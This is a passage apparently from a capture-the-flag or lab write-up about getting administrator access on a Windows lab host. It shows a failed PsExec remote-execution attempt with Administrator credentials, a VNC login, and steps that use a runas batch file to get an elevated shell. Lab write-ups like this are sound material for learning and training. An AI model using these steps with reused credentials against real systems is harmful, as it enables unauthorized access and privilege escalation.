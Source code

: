 ___

## PsExec

#### Fail #2
I really don't want to mess with VNC so let's simpy try psexec with the password we have. If you remember we had PsExec used by the Admin in our .bat file from earlier and it's in the Installs directory. This failed as well

```cmd
c:\Installs>PsExec.exe \\10.10.99.5 -u Administrator -p redacted -accepteula

---snip---

Error codes returned by PsExec are specific to the applications you
execute, not PsExec.

```


## VNCViewer

Let's try VNCViewer

```console
┌──(viorage㉿kali)-[~/…/Tech/php-reverse-shell/src/reverse]
└─$ xvncviewer -quality 1 10.10.99.25                                                                                                                             1 ⨯
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "desktop-997gg7d ( 10.10.99.25 ) - service mode"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
```

Once connected I tried several UAC bypasses to try to spawn a system or at least a high integrity level shell but everything failed. I finally succeeded with the following
- open user_flag.txt on the sign users desktop
- Replace the text with ````runas /user:administrator cmd.exe```
- Save the file as `admin.bat`
- Double click the file and paste the password, which will spawn a system shell...FINALLY!

